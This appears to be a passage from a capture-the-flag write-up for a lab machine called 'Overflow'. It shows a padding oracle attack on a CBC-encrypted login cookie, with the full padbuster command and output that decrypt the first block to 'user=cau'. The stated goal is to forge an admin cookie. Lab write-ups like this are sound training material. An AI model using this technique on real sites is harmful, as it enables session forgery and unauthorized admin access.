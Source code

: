 This could be indicative of CBC encryption, which can be reversed using a Padding Oracle Attack.
We’ll use _padbuster_ to attempt the padding oracle attack.
- `sudo apt install padbuster`

Padbuster is a tool able to decrypt ciphertext, encrypt paintext, and perform analysis. In another words, it can decrypt the cookie and also generate a new cookie with the text provided. So first we need to know what is that cookie so we can generate an admin cookie.

The original cookie from my screenshot seemed to have expired. I think there is some kind of database cleanup schedule running. So I registered a new account and extracted the cookie. Now we put this into our _padbuster_ command:
```bash
$ padbuster http://overflow.htb/login.php "8NDZLZGXTnJiGPmz0uA2%2FOzd49I5waGo" 8 -cookie "auth=8NDZLZGXTnJiGPmz0uA2%2FOzd49I5waGo" -encoding 0

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 302
[+] Location: home/index.php
[+] Content Length: 1878

INFO: Starting PadBuster Decrypt Mode
*** Starting Block 1 of 2 ***

INFO: No error string was provided...starting response analysis

*** Response Analysis Complete ***

The following response signatures were returned:

-------------------------------------------------------
ID     Freq    Status  Length  Location
-------------------------------------------------------
1       1       200     1878    N/A
2 **    255     302     0       ../logout.php?err=1
-------------------------------------------------------

Enter an ID that matches the error condition
NOTE: The ID marked with ** is recommended : 2

Continuing test with selection 2

[+] Success: (250/256) [Byte 8]
[+] Success: (211/256) [Byte 7]
[+] Success: (9/256) [Byte 6]
[+] Success: (88/256) [Byte 5]
[+] Success: (166/256) [Byte 4]
[+] Success: (70/256) [Byte 3]
[+] Success: (92/256) [Byte 2]
[+] Success: (115/256) [Byte 1]

Block 1 Results:
[+] Cipher Text (HEX): 6218f9b3d2e036fc
[+] Intermediate Bytes (HEX): 85a3bc5facf42f07
[+] Plain Text: user=cau

Use of uninitialized value $plainTextBytes in concatenation (.) or string at /usr/bin/padbuster line 361, <STDIN> line 1.
*** Starting Block 2 of 2 ***

```